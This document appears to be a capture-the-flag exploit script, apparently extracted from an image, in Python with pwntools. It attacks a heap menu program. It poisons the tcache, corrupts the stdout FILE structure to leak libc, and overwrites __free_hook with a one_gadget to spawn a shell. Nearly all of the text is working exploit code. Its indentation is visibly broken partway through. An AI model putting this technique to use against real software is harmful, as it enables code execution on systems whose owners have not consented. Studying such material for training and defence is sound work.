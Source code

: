 ```python
gdb.attach(p)
libc = ELF('./libc.so.6')

def _add(content):
   p.sendlineafter(":", "1")
   p.sendafter(":", content)

def _free(index, confirm):
   p.sendlineafter(":", "3")
   p.sendlineafter(":", str(index))
   p.sendlineafter(":", confirm)

def _edit(index, content):
   p.sendlineafter("choice:", "2")
   p.sendlineafter(":", str(index))
   p.sendafter(":", content)

while True:
   try:
   # Prepare fake chunks
      _add("A")
      _add(p64(0x11) * 8)
      _free(1, "y")
      _free(0, "n")
      _edit(0, p8(0x50))
      _add("B")
      _add(p64(0))
      _free(1,"n")
    # Overwrite the size to match small bin
      _edit(2, p64(0) + p64(0x91))
    # Fill the TCache to use unsorted bin
      for i in range(7):
         _free(1, "n")
      _edit(2, p64(0) + p64(0x51))
      _free(0, "y")
      _edit(2, p64(0) + p64(0x91))
      _free(1, "y")
    # Overwrite the main_arena to FSP
      _edit(2, p64(0) + p64(0x51) + p16(0x7760))
      _add("C")

    # Change the flag and chunk address
        _add(p64(0xfbad3c80) + p64(0) * 3 + p8(0))
        p.recv(8)
    # Leak now
        libc_addr= u64(p.recv(6).ljust(8,'\x00')) - 0x3ed8b0
        print "libc: ", hex(libc_addr)
        _free(0, "y")
    # Write __free_hook
        _edit(2, p64(0) + p64(0x51) + p64(libc.symbols["__free_hook"] + libc_addr))
        _add("D")
        _edit(2, p64(0) + p64(0x61))
        _free(0,"y")
    # CHange __free_hook to one_gadget
        one_gadget = 0x4f322 + libc_addr
        _add(p64(one_gadget))
        p.sendlineafter(":", "3")
        p.sendlineafter(":",str(2))
    # get shell
        p.interactive()
   except EOFError:
      print "again"
      exit(0)
```